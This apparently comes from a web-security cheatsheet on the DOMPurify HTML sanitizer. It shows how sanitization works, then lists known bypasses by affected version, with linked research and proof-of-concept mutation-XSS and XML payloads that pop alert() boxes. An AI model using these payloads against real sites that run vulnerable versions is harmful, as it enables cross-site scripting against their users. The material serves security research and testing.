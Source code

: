 ```yaml
---
title: "DOMPurify"
description: "Cheatsheet on DOMPurify"
lead: "Cheatsheet on DOMPurify"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## DOMPurify

[DOMPurify](https://github.com/cure53/DOMPurify) is the leading client-side XSS sanitizer for HTML, MathML and SVG.

Examples of sanitization:

```js
DOMPurify.sanitize('<img src=x onerror=alert(1)//>'); // becomes <img src="x">
DOMPurify.sanitize('<svg><g/onload=alert(2)//<p>'); // becomes <svg><g></g></svg>
DOMPurify.sanitize('<p>abc<iframe//src=jAva&Tab;script:alert(3)>def</p>'); // becomes <p>abc</p>
DOMPurify.sanitize('<math><mi//xlink:href="data:x,<script>alert(4)</script>">'); // becomes <math><mi></mi></math>
DOMPurify.sanitize('<TABLE><tr><td>HELLO</tr></TABL>'); // becomes <table><tbody><tr><td>HELLO</td></tr></tbody></table>
DOMPurify.sanitize('<UL><li><A HREF=//google.com>click</UL>'); // becomes <ul><li><a href="//google.com">click</a></li></ul>
```

## Vulnerabilities

### Version <= 3.0.10 & 3.0.11

- [Bypassing DOMPurify with good old XML](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)

```xml
<?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?>
<?img ><img src onerror=alert(1)>?>
<![CDATA[ ><img src onerror=alert(1)> ]]>
```

### Version <= 3.0.8

- [Playing with DOMPurify custom elements handling](https://mizu.re/post/playing-with-dompurify-ce-handling)

### Version <= 2.2.0

- [Bypass in DOMPurify when sanitizing svg elements](https://hackerone.com/reports/1024734)

```html
<form><math><mtext></form><form><mglyph><svg>
<mtext><style><path id="</style><img onerror=alert(\'XSS\') src>">
```

### Version < 2.1

- [Bypassing DOMPurify again with mutation XSS](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

```html
<math><mtext><table><mglyph><style>
<!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
```

```xml
<math><mtext><table><mglyph><style>
<!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

### Version < 2.0.17

- [Mutation XSS via namespace confusion](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

### Version <= 2.0.0

- [Write-up of DOMPurify 2.0.0 bypass using mutation XSS](https://research.securitum.com/dompurify-bypass-using-mxss/)

```html
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
```